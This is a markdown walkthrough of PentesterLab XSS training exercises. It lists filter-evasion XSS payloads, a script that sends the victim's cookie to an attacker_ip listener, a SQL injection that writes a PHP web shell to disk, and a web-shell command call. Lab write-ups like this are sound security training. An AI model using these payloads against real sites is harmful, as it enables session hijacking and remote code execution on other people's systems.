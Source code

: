 ## Cross Site Scripting (XSS) 
``` Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it. ```


### Web For Pentester ( XSS ) Walkthrough
### Example 1
``` There is no input validation, so, can exploit it directly with the classic “alert(1)” injection. ```
#### Payload - <script>alert(1)</script>


### Example 2
``` Filtered <script> and </script> with preg_replace function ```
#### Payload - <sCript>alert(1)</sCript> and <scr<script>ipt>alert(1)</scr</script>ipt>
  
  
### Example 3
``` Use PCRE modifier “i” (PCRE_CASELESS) to match both upper and lower case letters. However, recursion method still works fine. ```
#### Payload - <scr<script>ipt>alert(1)</scr</script>ipt>
  
  
  
### Example 4 
``` The script will stop when “script” is detected, Need other event without script ```
#### Payload - `<img src="x" onerror="alert(1)">  and <div onmousemove="alert(1)" src="xxxx"> , etc... `
  
  
  
### Example 5
``` Filtered keyword “alert” ```
#### Payload - <script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script> or <script>confirm(1)</script> or <script>prompt(1)</script>  etc ... 



### Example 6
``` User input has been included in “<script>” tab, so we do not need input “<script>” and just close the first double quote and use “//” to comment the following strings. ```
#### Payload - ";alert(1);//


### Example 7
``` This time the developer use PHP function “htmlentities()” to deal with user input, the “htmlentities()” function will encode special characters which will break the XSS injection. However, the developer did not indicate any flags to function “htmlentities()” which default only use flags “ENT_COMPAT | ENT_HTML401”, “ENT_COMPAT” flag only convert double quotes and leave single quotes alone```
#### Payload - ';alert(1);//



### Example 8
``` Did correct validation on parameter “name”, but the problem happened on “$_SERVER[PHP_SELF]”. Due to there is no validation on parameter “PHP_SELF” which is controlled by user. ( The filename of the currently executing script, relative to the document root. For instance, $_SERVER['PHP_SELF'] in a script at the address http://example.com/foo/bar.php would be /foo/bar.php. The __FILE__ constant contains the full path and filename of the current (i.e. included) file. If PHP is running as a command-line processor this variable contains the script name since PHP 4.3.0. -php.net )  ```
#### Payload - /" onmouseover="alert(1)



### Example 9
```  DOM-based XSS. the user input is in URL after “#”, so just put payload after “#” in URL will trigger the vulnerability ```
#### Payload - <script>alert(1)</script>  ( Test on IE or Edge )


### XSS and MySQL FILE (  Pentester Lab )
#### [Download Link](https://pentesterlab.com/exercises/xss_and_mysql_file/iso) 
#### Two steps to Attack
#### 1.Detect and Exploit XSS
#### 2.Access Admin Panel and exploit SQLi for RCE

#### Port Scanning - nmap -sV -v -A lab_ip
#### Scanning       - zap
#### XSS Test
#### setup listener on attacking machine - python -m SimpleHTTPServer 4444

#### Get Admin Cookie - 
``` <script>document.write('<img src="http://attacker_ip:4444/?'+document.cookie+' "/>');</script> ```

#### Use cookie editor and developer tool to login like admin

#### Find and Exploit SQLi ( load_file or others )
``` http://lab_ip/admin/edit.php?id=0 UNION select 1,2,"<?php system($_GET['c']); ?>",4 into outfile "/var/www/css/rce.php" ```

#### Got RCE 
``` http://192.168.79.168/css/webshell.php?c=whoami ```




### [Useful Link](https://owasp.org/www-community/xss-filter-evasion-cheatsheet#HTML_entities)


### Noted by [konova](https://www.facebook.com/kon0va)

### Ref : 
- [F4l13n5n0w](http://f4l13n5n0w.github.io/blog/2015/05/21/pentesterlab-web-for-pentester-xss/)
- [OWASP](https://owasp.org/www-community/attacks/Code_Injection)
- [php.net](https://www.php.net)
- [pentesterlab](https://pentesterlab.com/exercises/xss_and_mysql_file/course)
